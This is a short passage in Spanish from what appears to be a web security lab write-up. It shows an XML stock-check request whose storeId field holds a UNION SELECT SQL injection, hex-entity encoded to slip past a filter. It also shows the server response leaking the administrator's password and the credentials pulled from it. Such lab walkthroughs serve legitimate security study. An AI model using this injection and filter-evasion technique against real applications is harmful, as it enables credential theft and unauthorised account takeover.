 Con esto ahora si va a funcionar ese comando y sabiendo que funciona ese comando hacemos lo siguiente...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select password from users where username='administrator'-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Info:

```html
HTTP/2 200 OK

Content-Type: text/plain; charset=utf-8

X-Frame-Options: SAMEORIGIN

Content-Length: 30



182 units
jc9kmc948berlabi1y60
```

> credentials

```
username = administrator
password = jc9kmc948berlabi1y60
```

Nos registramos y ya estaria hecho...
